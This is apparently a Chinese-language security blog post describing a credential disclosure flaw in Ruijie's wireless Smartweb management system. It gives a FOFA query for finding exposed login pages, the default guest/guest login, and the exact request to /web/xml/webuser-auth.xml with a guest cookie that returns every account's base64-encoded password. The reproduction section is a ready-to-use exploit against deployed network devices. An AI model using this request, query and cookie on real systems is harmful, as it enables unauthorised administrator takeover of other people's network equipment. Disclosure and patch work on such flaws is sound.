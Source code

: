 #  锐捷-Smartweb管理系统-密码信息泄露漏洞   
骇客安全  骇客安全   2025-01-21 03:00  
  
## 漏洞描述  
  
锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。  
  
## 漏洞影响  
```
锐捷网络股份有限公司 无线smartweb管理系统
```  
  
## FOFA  
```
title="无线smartWeb--登录页面"
```  
  
## 漏洞复现  
  
登录页面如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MMgqvIR8ZicI3nCR32km8dDZtpaCccolcpY2suGempfL5CuiaEB09x0aribnb38XmgKqzKg8rbDdibjg/640?wx_fmt=png&from=appmsg "null")  
  
  
默认存在 guest账户，账号密码为 **guest/guest**  
  
  
其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**  
，而且响应中包含了 admin密码的base64加密  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MMgqvIR8ZicI3nCR32km8dD4suDEuLIWFJauvtPicyV1ugoJJSL37niaD9NUC9791oIu0FSlvwBEMbQ/640?wx_fmt=png&from=appmsg "null")  
  
  
解密就可以获得 admin管理员的密码，尝试直接请求  
  
```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MMgqvIR8ZicI3nCR32km8dDAgpYQVd3vCaWfrb9WziasLW25FbJAemDNygUuGdmN2svbPDUcXIWM1A/640?wx_fmt=png&from=appmsg "null")  
  
  
直接获得所有的账户的等级标志和base64加密的账号密码  
  
  
